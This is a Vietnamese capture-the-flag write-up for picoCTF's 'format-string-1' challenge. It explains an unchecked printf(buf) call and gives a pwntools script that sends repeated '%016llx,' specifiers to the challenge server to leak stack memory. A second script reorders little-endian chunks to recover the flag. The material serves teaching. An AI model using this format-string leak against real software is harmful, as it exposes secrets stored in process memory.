






# format-string-1
Đề bài cung cấp file binary và source code luôn. <br>
Kiểm tra một số thông tin cơ bản về binary. <br>

<br>

<br>

Ta kiểm tra source code thì thấy lỗi `format string` khi chương trình in ra `buf`: <br>

<br>
Tóm tắt về cách chương trình này hoạt động. Đầu tiên nó mở file `secret-item-1.txt`, đọc 64 byte trong đó và lưu vào `secret1`. Sau đó nó đọc 64 byte trong `flag.txt` và lưu vào `flag`. Cuối cùng, đọc 64 byte trong `secret-item-2.txt` và lưu vào `secret2`. Lỗi format string xảy ra khi chương trình cố in ra buf bằng `printf(buf)` mà không có tham số format. Tận dụng lỗi này, ta sẽ in ra `flag`.
<br>

_payload.py_
```python
from pwn import *

host = 'mimas.picoctf.net'
port = 62687
p = remote(host, port)
# p = process("./format-string-1")

payload = b"%016llx," * 50

p.sendline(payload)
p.interactive()

```

<br>

Ta đã biết rằng flag bị kẹp giữa secret1 và secret2. Ta giải mã các giá trị hex này xem sao. Sử dụng `CyberChef`. <br>
Phát hiện một dãy giá trị có vẻ là flag.

Do ta đang thao tác trên file 64bit, little endian (xem thông tin file phía trên). Nên cứ mỗi 8 ký tự, ta đảo ngược lại. Do lười nên tôi viết nhanh một script python làm điều này.
```python
flag_rev = '{FTCocip5_14m1n44x4_31y746_g41f_}611772'
flag = ''

for i in range(0, len(flag_rev), 8):
    chunk = flag_rev[i:i+8]
    rev_chunk = chunk[::-1]
    flag += rev_chunk

print(flag)
```
May mắn ta đã lấy được flag:
